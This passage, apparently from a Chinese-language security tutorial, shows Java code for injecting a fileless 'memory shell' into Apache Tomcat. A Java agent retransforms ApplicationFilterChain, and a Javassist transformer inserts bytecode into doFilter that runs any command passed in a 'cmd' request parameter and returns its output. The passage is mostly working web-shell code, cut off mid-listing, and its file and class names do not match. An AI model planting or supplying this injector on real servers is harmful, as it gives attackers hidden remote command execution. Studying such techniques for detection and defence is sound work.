 下一步创建`agentmain代理`，作用是：`遍历找到要攻击类对应的JVM中的ApplicationFilterChain类`,然后对其进行重定义

`AgentMain.java`

```java
import java.lang.instrument.Instrumentation;

public class AgentMain {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public static void agentmain(String agentArgs, Instrumentation ins) {
        ins.addTransformer(new MyTransformer(),true);
        // 获取所有已加载的类
        Class[] classes = ins.getAllLoadedClasses();
        for (Class clas:classes){
            if (clas.getName().equals(ClassName)){
                try{
                    // 对类进行重新定义
                    ins.retransformClasses(new Class[]{clas});
                } catch (Exception e){
                    e.printStackTrace();
                }
            }
        }
    }
}
```

然后创建我们的转换器，其作用是如果传入的类为`ApplicationFilterChain`，则对其`doFilter方法`插入恶意字节码

`MyTransformer.java`

```java
import javassist.*;
import java.lang.instrument.ClassFileTransformer;
import java.security.ProtectionDomain;

public class DefineTransformer implements ClassFileTransformer {

    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) {
        className = className.replace("/",".");
        if (className.equals(ClassName)){
            System.out.println("Find the Inject Class: " + ClassName);
            ClassPool pool = ClassPool.getDefault();
            try {
                CtClass c = pool.getCtClass(className);
                CtMethod m = c.getDeclaredMethod("doFilter");
                m.insertBefore("javax.servlet.http.HttpServletRequest req =  request;\n" +
                        "javax.servlet.http.HttpServletResponse res = response;\n" +
                        "java.lang.String cmd = request.getParameter(\"cmd\");\n" +
                        "if (cmd != null){\n" +
                        "    try {\n" +
                        "        java.io.InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();\n" +
                        "        java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(in));\n" +
                        "        String line;\n" +
                        "        StringBuilder sb = new StringBuilder(\"\");\n" +
                        "        while ((line=reader.readLine()) != null){\n" +
                        "            sb.append(line).append(\"\\n\");\n" +
                        "        }\n" +
                        "        response.getOutputStream().print(sb.toString());\n" +
                        "        response.getOutputStream().flush();\n" +
```